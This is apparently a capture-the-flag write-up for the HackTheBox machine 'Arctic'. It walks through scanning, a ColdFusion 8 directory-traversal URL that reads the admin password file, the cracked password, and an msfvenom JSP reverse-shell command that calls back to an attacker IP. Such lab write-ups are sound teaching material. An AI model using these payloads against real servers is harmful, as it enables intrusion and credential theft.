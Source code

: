 ```yaml
---
description: 10.10.10.11
---
```


# Arctic

## Nmap

```
sudo nmap -Pn -p- 10.10.10.11 --min-rate=5000
```

![](<../../../.gitbook/assets/image (241).png>)

Ran a script script based on open ports

{% code overflow="wrap" %}
```bash
# Nmap 7.92 scan initiated Wed Aug 10 16:56:59 2022 as: nmap -Pn -p135,8500,49154 -sCV -O -v -oN script-scan.txt 10.10.10.11
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.040s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.009 days (since Wed Aug 10 16:46:55 2022)
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 10 16:59:18 2022 -- 1 IP address (1 host up) scanned in 139.14 seconds
```
{% endcode %}

## FMTP Port 8500

{% embed url="https://www.eurocontrol.int/service/flight-message-transfer-protocol-address-coordination" %}

> Flight Message Transfer Protocol (FMTP) is a communication stack based on the transmission control and internet protocols (TCP/IP). It is used in a peer-to-peer communication context for the information exchange between flight data processing systems for the purpose of notification, coordination and transfer of flights between air traffic control units and for the purposes of civil-military cooperation.

I look to see if there's anything interesting that can be looked at on the browser on this particular port

![](<../../../.gitbook/assets/image (237).png>)

Clicking on `CFIDE` leads to some pretty interesting findings

![](<../../../.gitbook/assets/image (177).png>)

I'm most interested in the `administrator` link, so going there takes me to an Admin page!

![](<../../../.gitbook/assets/image (185).png>)

## Searchsploit

I search for any public exploits in searchsploit

![](<../../../.gitbook/assets/image (485).png>)

The Remote Code Execution python script catches my eye so I'll view that one

![](<../../../.gitbook/assets/image (608).png>)

{% embed url="https://www.exploit-db.com/exploits/50057" %}

{% embed url="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-2265" %}

> Multiple directory traversal vulnerabilities in FCKeditor before 2.6.4.1 allow remote attackers to create executable files in arbitrary directories via directory traversal sequences in the input to unspecified connector modules, as exploited in the wild for remote code execution in July 2009, related to the file browser and the editor/filemanager/connectors/ directory.

## Foothold #1 - RCE Script

This python script does it all! We'll change the listening host IP and port number (in case firewall rules don't like weird port numbers)&#x20;

Then we run it and get a shell!

![](<../../../.gitbook/assets/image (164).png>)

## Foothold #2 - Directory Traversal

There was also a metasploit module for directory traversal. I was curious about it so I checked it out and found this

{% embed url="https://www.exploit-db.com/exploits/14641" %}

![](<../../../.gitbook/assets/image (158).png>)

I decided to do this without the python script since you technically don't need to

{% code overflow="wrap" %}
```
http://arctic.htb:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
{% endcode %}

As you can see, there's a password that's encrypted, so we should crack it.

### Cracking the hash

![](<../../../.gitbook/assets/image (146).png>)

```
happyday
```

&#x20;Because we have a password, we can log in!

![](<../../../.gitbook/assets/image (472).png>)

### Getting a shell

This is an excellent resource I found that could assist with getting a reverse shell

{% embed url="https://pentest.tonyng.net/attacking-adobe-coldfusion/" %}

Generate our payload with  msfvenom

{% code overflow="wrap" %}
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f raw > revshell.jsp
```
{% endcode %}

Schedule a New Task

![](<../../../.gitbook/assets/image (446).png>)

Make sure to save the output to a file in a valid directory. I had to check for what it was on google

[https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf](https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf)

![](<../../../.gitbook/assets/image (411).png>)

Before you run the scheduled task, make sure to have a web server (I use python) running so it will download your payload

![](<../../../.gitbook/assets/image (287).png>)

![](<../../../.gitbook/assets/image (621).png>)

![](../../../.gitbook/assets/image.png)

Now start your listener and go to the file in your web browser to catch a shell!

![](<../../../.gitbook/assets/image (38).png>)

## Priv Esc

### SystemInfo

![](<../../../.gitbook/assets/image (444).png>)

```
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
System Type:               x64-based PC
```

### whoami /all

![](<../../../.gitbook/assets/image (470).png>)



## Windows Exploit Suggester

![](<../../../.gitbook/assets/image (10).png>)

{% embed url="https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled" %}

I've seen online people using this, however I cannot get it work

## Resources

[https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf](https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf)

